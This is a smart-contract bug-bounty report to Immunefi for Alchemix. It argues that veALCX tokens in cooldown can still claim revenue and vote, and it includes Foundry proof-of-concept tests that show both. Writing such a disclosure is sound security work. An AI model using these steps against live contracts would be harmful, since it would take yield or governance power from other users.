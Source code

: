 
# veALCX holders are able to withdraw rewards and vote even when their token is under cooldown

Submitted on Sun May 19 2024 06:58:15 GMT-0400 (Atlantic Standard Time) by @xBentley for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31447

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
veALCX holders are able to withdraw rewards even when their token is under cooldown. This is contrary to the docs that clearly state that users should not be able to withdraw rewards as stated here: (https://alchemixfi.medium.com/vealcx-update-272e8900ac5a)

## Vulnerability Details
According to the docs, veALCX holders should not be able to withdraw rewards and vote when their token enters into cooldown: 

> There will be a one-epoch cooldown period between unlocked tokens and being able to claim them to the user’s wallet. The user will have no voting power and will earn no rewards during this cooldown time. Locked tokens can become eligible for unlocks by burning MANA tokens — see the MANA section below.

However, the src/RevenueHandler.sol::claim(https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L186) function does not check this fact, allowing users to claim rewards at will. 

```solidity
function claim(
        uint256 tokenId,
        address token,
        address alchemist,
        uint256 amount,
        address recipient
    ) external override {
        require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, tokenId), "Not approved or owner");

        uint256 amountBurned = 0;

        uint256 amountClaimable = _claimable(tokenId, token);
        require(amount <= amountClaimable, "Not enough claimable");
        require(amount > 0, "Amount must be greater than 0");
        require(amount <= IERC20(token).balanceOf(address(this)), "Not enough revenue to claim");

        userCheckpoints[tokenId][token].lastClaimEpoch = currentEpoch;
        userCheckpoints[tokenId][token].unclaimed = amountClaimable - amount;

        // If the alchemist is defined we know it has an alchemic-token
        if (alchemists[alchemist] != address(0)) {
            require(token == IAlchemistV2(alchemist).debtToken(), "Invalid alchemist/alchemic-token pair");

            (, address[] memory deposits) = IAlchemistV2(alchemist).accounts(recipient);
            IERC20(token).approve(alchemist, amount);

            // Only burn if there are deposits
            amountBurned = deposits.length > 0 ? IAlchemistV2(alchemist).burn(amount, recipient) : 0;
        }

        /*
            burn() will only burn up to total cdp debt
            send the leftover directly to the user
        */
        if (amountBurned < amount) {
            IERC20(token).safeTransfer(recipient, amount - amountBurned);
        }

        emit ClaimRevenue(tokenId, token, amount, recipient);
    }

```
## Impact Details
Users are able to claim rewards when their token in under cooldown contrary to the documentation. 

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L186

        
## Proof of concept
## Proof of Concept
Add this test to src/test/RevenueHandler.t.sol for claiming revenue:

```solidity

    function testClaimRevenueSucceedsCoolDown() external {
        revenueHandler.addAlchemicToken(address(alethAlchemist));

        uint256 revAmt = 1000e18;
        uint256 tokenId = _setupClaimableRevenue(revAmt);

        uint256 claimable = revenueHandler.claimable(tokenId, alusd);
        assertGt(claimable, 0);
        hevm.warp(block.timestamp + MAXTIME + nextEpoch);
        veALCX.startCooldown(tokenId);
        claimable = revenueHandler.claimable(tokenId, alusd);
        assertGt(claimable, 0);
        revenueHandler.claim(tokenId, alusd, address(alusdAlchemist), claimable, address(this));
        assertGt(IERC20(alusd).balanceOf(address(this)), 0);

    }
```
Add this test to src/test/AlchemixGovernor.t.sol for voting:

```solidity
    function testCanVoteCoolDown() public {
        assertFalse(voter.isWhitelisted(usdc));

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        hevm.warp(block.timestamp + 2 days); // delay

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // Mint the necessary amount of flux to ragequit
        uint256 ragequitAmount = veALCX.amountToRagequit(tokenId1);
        hevm.prank(address(veALCX));
        flux.mint(admin, ragequitAmount);
        hevm.startPrank(admin);
        flux.approve(address(veALCX), ragequitAmount);
        veALCX.startCooldown(tokenId1);
        
        uint256 votes = governor.getVotes(admin, block.timestamp);
        assertLt(0, votes);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();
    }
```